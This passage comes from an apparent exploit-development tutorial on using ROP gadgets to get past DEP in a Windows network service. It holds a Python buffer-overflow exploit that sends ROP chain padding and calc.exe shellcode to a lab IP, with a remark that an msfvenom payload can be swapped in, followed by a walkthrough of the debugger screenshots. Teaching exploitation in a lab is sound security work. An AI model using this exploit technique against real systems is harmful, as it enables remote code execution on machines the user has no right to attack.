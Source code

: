 ```python

# Padding between ROP Gadgets and shellcode. Arbitrary number (just make sure you have enough room on the stack)
padding2 = "\x90" * 250

# calc.exe POC payload created with the Windows API system() function.
# You can replace this with an msfvenom payload if you would like
shellcode = "\x31\xc0\x50\x68"
shellcode += "\x63\x61\x6c\x63"
shellcode += "\x54\xbe\x77\xb1"
shellcode += "\xfa\x6f\xff\xd6"

# 5000 byte total crash
filler = "\x43" * (5000-len(command)-len(crash)-len(parameters)-len(padding)-len(rop)-len(padding2)-len(padding2))
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.148", 9999))
s.send(command+crash+rop+parameters+padding+rop2+padding2+shellcode+filler)
s.close()
```

A look at the disassembly window as we have approached the first `mov` gadget:

<img src="{{ site.url }}{{ site.baseurl }}/images/DEP34.PNG" alt="">

A look at the stack before the gadget execution:

<img src="{{ site.url }}{{ site.baseurl }}/images/DEP35.PNG" alt="">

Look at that! The memory address containing the `return` parameter (filled with `0x4c4c4c4c` originally) placeholder was successfully manipulated to point to the shellcode area!:

<img src="{{ site.url }}{{ site.baseurl }}/images/DEP36.PNG" alt="">

The next ROP gadget of `mov dword ptr ds:[edx], eax` successfully updates the `lpAddress` parameter, also!:

<img src="{{ site.url }}{{ site.baseurl }}/images/DEP37.PNG" alt="">

Awesome. We are halfway there!

One thing you may have noticed from the `mov dword ptr ds:[edx], eax` ROP gadget is the `ret` instruction. Instead of a normal return, the gadget had a `ret 0x000C` instruction.

The number that comes after `ret` refers to the number of bytes that should be removed from the stack. C, in decimal, is 12. 12 bytes would refer to three 4-byte values in x86 (Each 32-bit DWORD memory address contains 4 bytes. 4 bytes * 3 values = 12 total). These types of returns are used to "clean up" items on the stack, by removing items. Essentially, this just removes the next 3 memory addresses after the `ret` is executed.

In any case - just as `pop`, we will have to add some padding to compensate. As mentioned above, a `ret 0x000C` will remove three memory addresses off of the stack. First, the return instruction takes the current stack pointer at the time of the `ret 0x000C` instruction (which would be the next ROP gadget in the chain) and loads it into EIP. EIP then executes that address as normally. That is why no padding is needed at that point. The `0x000C` portion of the return from the now previous ROP gadget kicks in and takes the next three memory addresses removed off the stack. This is the reason why padding for `ret NUM` instructions are implemented in the NEXT ROP gadget instead of directly below, like `pop` padding.
